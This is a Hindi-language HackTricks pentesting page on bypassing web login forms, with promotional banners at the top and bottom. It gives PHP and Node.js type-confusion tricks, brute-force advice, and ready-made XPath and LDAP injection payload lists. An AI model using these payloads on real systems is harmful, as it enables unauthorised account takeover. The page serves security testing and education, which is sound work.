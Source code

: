 # लॉगिन बायपास

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का एक्सेस** प्राप्त करना चाहते हैं? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **मुझे** **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में PR जमा करके**।

</details>

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे महत्वपूर्ण साइबर सुरक्षा घटना है और यूरोप में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस प्रौद्योगिकी और साइबर सुरक्षा विशेषज्ञों के लिए एक उत्तेजक मिलन स्थल है।

{% embed url="https://www.rootedcon.com/" %}

## **नियमित लॉगिन बायपास**

यदि आप एक लॉगिन पेज पाते हैं, तो यहाँ आप कुछ तकनीकें पा सकते हैं जिन्हें बायपास करने की कोशिश कर सकते हैं:

* पृष्ठ के अंदर **टिप्पणियाँ** की जाँच करें (नीचे और दाएं ओर स्क्रॉल करें?)
* देखें कि क्या आप **प्रतिबंधित पेजों तक सीधे पहुंच सकते हैं**
* **पैरामीटर्स न भेजें** (कोई भेजें नहीं या केवल 1 भेजें)
* **PHP तुलना त्रुटि जांचें:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **कंटेंट प्रकार को json में बदलें** और json मान (bool true समाहित) भेजें
* यदि आपको एक प्रतिक्रिया मिलती है जो कहती है कि POST समर्थित नहीं है, तो आप `Content-Type: application/json` के साथ GET अनुरोध के साथ **शरीर में JSON भेजने की कोशिश कर सकते हैं**
* नोडजेएस की संभावित पार्सिंग त्रुटि की जांच करें (यह पढ़ें [**यह**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* नोडजेएस उस payload को एक क्वेरी में बदल देगा जो निम्नलिखित के समान होगी: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` जिससे पासवर्ड बिट हमेशा सच हो जाएगा।
* यदि आप एक JSON ऑब्जेक्ट भेज सकते हैं तो आप लॉगिन को बायपास करने के लिए `"password":{"password": 1}` भेज सकते हैं।
* ध्यान रखें कि इस लॉगिन को बायपास करने के लिए आपको अब भी **एक मान्य उपयोगकर्ता का पता करना और भेजना आवश्यक है**।
* `mysql.createConnection` को बुलाते समय **"stringifyObjects":true** विकल्प जोड़ना आखिरकार सभी अप्रत्याशित व्यवहारों को ब्लॉक कर देगा जब `Object` पैरामीटर में पास किया जाएगा।
* क्रेडेंशियल्स की जांच करें:
* उपयोग की गई प्रौद्योगिकी/प्लेटफ़ॉर्म के [**डिफ़ॉल्ट क्रेडेंशियल्स**](../../generic-methodologies-and-resources/brute-force.md#default-credentials)
* **सामान्य कॉम्बिनेशन** (रूट, एडमिन, पासवर्ड, तकनीक का नाम, इनमें से किसी एक के साथ डिफ़ॉल्ट उपयोगकर्ता).
* **Cewl** का उपयोग करके एक शब्दकोश बनाएं, **डिफ़ॉल्ट** उपयोगकर्ता नाम और पासवर्ड जोड़ें (यदि है) और सभी शब्दों का उपयोग करके उन्हें उपयोगकर्ता नाम और पासवर्ड के रूप में ब्रूट-फ़ोर्स करने की कोशिश करें
* **बड़े शब्दकोश का उपयोग करके ब्रूट-फ़ोर्स** करें ([**ब्रूट फोर्स**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)**

### SQL Injection प्रमाणीकरण बायपास

[यहाँ आप **SQL इंजेक्शन** के माध्यम से लॉगिन को बायपास करने के कई तरीके पा सकते हैं](../sql-injection/#authentication-bypass)।

निम्नलिखित पृष्ठ पर आप एक **कस्टम सूची पा सकते हैं जिसे आप लॉगिन को बायपास करने के लिए SQL इंजेक्शन के माध्यम से प्रयास कर सकते हैं**:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection प्रमाणीकरण बायपास

[यहाँ आप **No SQL इंजेक्शन** के माध्यम से लॉगिन को बायपास करने के कई तरीके पा सकते हैं](../nosql-injection.md#basic-authentication-bypass)**।**

क्योंकि NoSQL इंजेक्शन को पैरामीटर्स मान को बदलने की आवश्यकता होती है, आपको उन्हें मैन्युअल रूप से टेस्ट करने की आवश्यकता होगी।

### XPath Injection प्रमाणीकरण बायपास

[यहाँ आप **XPath इंजेक्शन** के माध्यम से लॉगिन को बायपास करने के कई तरीके पा सकते हैं](../xpath-injection.md#authentication-bypass)।
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection प्रमाणीकरण बायपास

[यहाँ आप कई तरह के ट्रिक्स पा सकते हैं जिनका उपयोग करके **LDAP Injection** के माध्यम से लॉगिन को बायपास किया जा सकता है।](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### याद रखें मुझे

अगर पेज में "**याद रखें मुझे**" कार्यक्षमता है तो जांचें कि यह कैसे लागू किया गया है और क्या आप इसका दुरुपयोग करके **अन्य खातों को अधिकार में ले सकते हैं**।

### रीडायरेक्ट

पेज आम तौर पर लॉगिन के बाद उपयोगकर्ताओं को रीडायरेक्ट करते हैं, जांचें कि क्या आप उस रीडायरेक्ट को बदल सकते हैं ताकि आप [**ओपन रीडायरेक्ट**](../open-redirect.md) का कारण बना सकें। शायद आप कुछ जानकारी (कोड, कुकीज़...) चुरा सकते हैं अगर आप उपयोगकर्ता को अपनी वेबसाइट पर रीडायरेक्ट करते हैं।

## अन्य जांच

* जांचें कि क्या आप लॉगिन कार्यक्षमता का दुरुपयोग करके **उपयोगकर्ता नामों की गणना** कर सकते हैं।
* जांचें कि क्या **ऑटो-पूर्ण** पासवर्ड/**संवेदनशील** जानकारी **फॉर्म** में सक्रिय है **इनपुट:** `<input autocomplete="false"`



<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) स्पेन में सबसे महत्वपूर्ण साइबर सुरक्षा घटना है और यूरोप में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस प्रौद्योगिकी और साइबर सुरक्षा विशेषज्ञों के लिए एक उफान मिलने का स्थान है।

{% embed url="https://www.rootedcon.com/" %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का एक्सेस चाहते हैं**? [**सब्सक्रिप्शन प्लान्स जांचें**](https://github.com/sponsors/carlospolop)!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* प्राप्त करें [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** पर फॉलो करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**।**
* **अपने हैकिंग ट्रिक्स साझा करें PRs के माध्यम से [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud)** को सबमिट करके।

</details>
